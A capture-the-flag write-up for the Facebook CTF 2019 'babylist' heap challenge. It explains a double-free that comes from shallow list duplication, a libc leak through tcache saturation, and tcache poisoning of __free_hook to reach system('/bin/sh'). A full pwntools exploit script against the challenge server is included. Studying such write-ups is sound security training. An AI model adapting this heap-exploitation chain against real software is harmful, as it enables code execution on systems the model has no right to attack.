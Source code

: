 # Facebook CTF 2019 - babylist

This challenge is c++ binary.

```
$$$$$$$$$$$$$$$$$$$$$$$$$$
Welcome to babylist!
$$$$$$$$$$$$$$$$$$$$$$$$$$

1. Create a list
2. Add element to list
3. View element in list
4. Duplicate a list
5. Remove a list
6. Exit
>
```
It looks like heap challenge. List structure is as follows.

```
typedef list {
  char name[0x70];
  int *start; /* address of the first element in array */
  int *last;  /* address of the last element in array */
  int *limit; /* end of allocated array */
} List;
```

start, last, limit pointers points address of memory that is dynamically allocated.
When we add a element to list, the element added to array and last pointer is increased by 4(size of element).

When we add first element to list, the start pointer is initialized via `operator new(4)`. and internally(in binary)
it can store only one element. Each time the array is full, existing array is freed(deleted) and new array is allocated.
The size of array gets doubled each time.

Third menu 'View' has nothing special. Duplicating list literally copies a list. But an interesting point is that it
doesn't allocate new array and copies, instead copies start, last, limit pointer. So it can happen that
1. Make an list named A. Add elements until array in the list gets full.
2. Duplicate that list. Let's call duplicated list B.
3. Add a element in A. Then A gets newly allocated array(start, last, limit).
4. Array that B has is freed memory.

Also if we add a element in B, array that B has is again freed(double free). We can use this vulnerability later in exploit.
To leak the address of libc,
1. Make a list. and add elements until the size of array becomes large enough(larger than 0x80, which is fastbin chunk).
2. Add elements so that array gets full.
3. Duplicate the list 8 times.
4. Add a elements in each list except the the last list.
    - The same array is freed 8 times.
    - Binary uses glibc 2.27 which implements tcache. With first 7 frees, tcache gets saturated.
    - The last eighth free puts the chunk into unsorted bin.
5. View the value of first, second elements in 9th list.
    - Array of 9th list is pointer of freed chunk in unsorted bin.
    - first, second bytes are the address of somewhere in main_arena
    - We can get base address of libc.

After libc leak, the exploit scenario is as follows.
1. Make a list and add elements until the size of array becomes 0x91(including chunk header)
    - The reason we do this step is 0x91 is the same as the size of 'list' structure.
2. Duplicate this list 2 times.
3. Add a element in two lists.
    - Array is double freed. (tcache -> p -> p)
4. Make a list with its name value of address of __free_hook. (tcache -> p)
5. Make a list with its name value of "/bin/sh\x00". (tcache -> __free_hook)
    - Array of third list is '/bin/sh\x00'
    - Let's call this array A.
6. Make a list with its name value of address of system
    - __free_hook is allocated.
7. Add a element in 3rd list.
    - A is freed. That is, free(A)
    - __free_hook is overwritten with system and A has "/bin/sh"
    - free(A) is system("/bin/sh");
8. Get shell!

```
from pwn import *

bin = ELF('./babylist')
libc = ELF('./libc-2.27.so', checksec=False)

LOCAL = False

one_gadget_offset = [0x4f2c5, 0x4f322, 0x10a38c]


def create_list(name):
    conn.sendlineafter('> ', str(1))
    conn.sendlineafter('name for list:\n', name)
    conn.recvuntil('List has been created!\n')


def add_element(idx, num):
    conn.sendlineafter('> ', str(2))
    conn.sendlineafter('Enter index of list:\n', str(idx))
    conn.sendlineafter('Enter number to add:\n', str(num))
    conn.recvuntil('Number successfully added to list!\n')


def view_element(list_idx, idx):
    conn.sendlineafter('> ', str(3))
    conn.sendlineafter('Enter index of list:\n', str(list_idx))
    conn.sendlineafter('Enter index into list:\n', str(idx))


def duplicate_list(idx, name):
    conn.sendlineafter('> ', str(4))
    conn.sendlineafter('Enter index of list:\n', str(idx))
    conn.sendlineafter('Enter name for new list:\n', name)
    conn.recvuntil('List has been duplicated!\n')


def remove_list(idx):
    conn.sendlineafter('> ', str(5))
    conn.sendlineafter('Enter index of list:\n', str(idx))
    conn.recvuntil('List has been deleted!\n')


if LOCAL:
    conn = process('./babylist', env={'LD_PRELOAD': './libc-2.27.so'})
    gdb.attach(conn)
else:
    conn = remote('challenges.fbctf.com', 1343)

# Stage 1: Libc Leak
create_list('AAAAAAAA')

for i in range(64):
    log.info(str(i))
    add_element(0, 1)

for i in range(8):
    duplicate_list(0, 'BBBBBBBB')

for i in range(8):
    add_element(i, 1)

view_element(8, 0)

conn.recvuntil('BBBBBBBB[0] = ')
lower = conn.recvuntil('\n')[:-1]
if lower.startswith('-'):
    lower = ~int(lower[1:]) + 1
else:
    lower = int(lower)

view_element(8, 1)
conn.recvuntil('BBBBBBBB[1] = ')
higher = int(conn.recvuntil('\n')[:-1]) + 1

libc_addr = (higher << 32) + lower - 0x3ebca0
log.info('Libc_addr: ' + hex(libc_addr))
log.info('One_gadget_addr: ' + hex(libc_addr + one_gadget_offset[1]))

# Stage 2
for i in range(9):
    remove_list(i)

create_list('CCCCCCCC')  # 0

for i in range(32):
    add_element(0, 1)

duplicate_list(0, 'DDDDDDDD')  # 1
duplicate_list(0, 'DDDDDDDD')  # 2

add_element(0, 1)
add_element(1, 1)

create_list(p64(libc_addr + libc.symbols['__free_hook']))
create_list('/bin/sh\x00')
create_list(p64(libc_addr + libc.symbols['system']))

conn.sendlineafter('> ', str(2))
conn.sendlineafter('Enter index of list:\n', str(2))
conn.sendlineafter('Enter number to add:\n', str(1))

conn.interactive()
```